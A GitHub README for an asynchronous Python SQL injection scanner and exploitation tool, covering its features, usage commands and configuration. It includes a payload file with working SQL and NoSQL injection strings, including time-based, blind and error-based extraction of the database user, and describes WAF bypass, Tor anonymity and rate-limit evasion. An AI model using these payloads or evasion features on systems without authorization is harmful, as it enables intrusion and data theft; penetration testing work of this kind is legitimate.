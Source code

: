 # 🛡️ SQLiScan Pro

SQLiScan Pro is an advanced, asynchronous, and highly efficient SQL Injection vulnerability scanner and exploitation tool developed in Python. Designed for security professionals, penetration testers, and developers, it automates the process of detecting various types of SQL Injection flaws in web applications and, where possible, facilitates data extraction.

Leveraging asynchronous programming, sophisticated payload management, and comprehensive detection techniques, SQLiScan Pro provides robust and reliable vulnerability assessment.

---

## 🚀 Features

- **🧠 Comprehensive SQLi Detection:** Detects a wide range of vulnerabilities:
  - Error-Based SQLi
  - Blind SQLi (Content-Based, Length-Based)
  - Time-Based SQLi
  - UNION-Based SQLi

- **💥 Automated Exploitation (UNION-Based):**
  - Current user/database
  - Table & column names
  - Example user data

- **🛡️ WAF Bypass Techniques:**
  - Obfuscation (comments, newlines)
  - Encoding (URL, Hex, Char)
  - Case permutation

- **⚡ Async & Concurrent Scanning:** Uses `asyncio` + `aiohttp` for high performance.

- **🕵️ Tor Integration:** Optional Tor proxy support for anonymity.

- **🧠 Brute-force Protection Bypass:** Random delays to evade rate-limiting.

- **🔐 CSRF Token Management:** Auto handles dynamic tokens in POST forms.

- **🔁 Robust Error Handling:** Retries on network failures.

- **🔧 Custom Payload Support:** JSON-based extendable payload system.

- **📊 Detailed Reporting:** Outputs reports in HTML, JSON, and TXT formats.

- **🧩 Modular Architecture:** Easily extendable classes: `RequestHandler`, `PayloadManager`, etc.

- **📈 Improved Logging:** Verbose, colorful CLI logs.

---

## 📦 Prerequisites

- **Python:** 3.7+
- **Install Libraries:**

```bash
pip install aiohttp requests socks pdfkit jinja2 tqdm
```

- **Install `wkhtmltopdf`:**

```bash
# Linux (Debian/Ubuntu)
sudo apt-get install wkhtmltopdf

# Windows
# Download from https://wkhtmltopdf.org and add to PATH
```

- **(Optional) Tor Proxy:** Tor should be running on `127.0.0.1:9050`

---

## 🧪 Usage

```bash
python lastsqload.py --help
```

### 📌 Example Usage

```bash
# Basic GET scan
python lastsqload.py -u "http://example.com/search.php?query=test"

# POST scan
python lastsqload.py -u "http://example.com/login.php" -m POST -d "username=admin&password=pass"

# With Tor & custom payloads
python lastsqload.py -u "http://example.com/product.php?id=1" -t -p my_payloads.json"

# Verbose with concurrency and headers
python lastsqload.py -u "http://example.com" -w 20 -v -H '{"User-Agent": "MyScanner", "X-Forwarded-For": "1.1.1.1"}'
```

---

## 🛠️ Configuration File (JSON)

```json
{
  "target_url": "http://example.com/api/products?id=1",
  "request_method": "GET",
  "post_data": null,
  "tor_enabled": true,
  "max_concurrency": 15,
  "payload_file": "custom_payloads.json",
  "scan_timeout": 600,
  "blind_sqli_delay": 7.0,
  "verbose": true,
  "headers": {
    "Authorization": "Bearer your_token_here",
    "Cookie": "PHPSESSID=your_session_id"
  }
}
```

```bash
python lastsqload.py -c config.json
```

---

## 💣 Payload System

Custom payloads via `payloads.json`:

```json
{
  "time_based": {
    "generic": ["' AND SLEEP(5)-- -"],
    "mysql": ["' AND SLEEP(5)#"],
    "nosql": [{"$where": "sleep(5000)"}]
  },
  "blind": {
    "generic": ["' AND '1'='1", "' AND '1'='2'"],
    "nosql": [{"$ne": 1}, {"$eq": 1}]
  },
  "error_based": {
    "mysql": ["' AND (SELECT 1 FROM(SELECT COUNT(*),CONCAT(0x717a78,(SELECT USER()),FLOOR(RAND()*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- -"],
    "generic": ["' OR 1=CAST((SELECT 1) AS INT)/0 --"]
  }
}
```

Supports modular extension via `payload_plugins/` folder.

---

## 📑 Reporting

Upon scan completion, detailed reports are generated:

- `HTML` (User-friendly format + PDF if wkhtmltopdf exists)
- `JSON` (Machine-readable)
- `TXT` (Plain summary)

Contents include:

- Target info
- Vulnerability types & payloads used
- Extracted data (if possible)
- Remediation tips

---

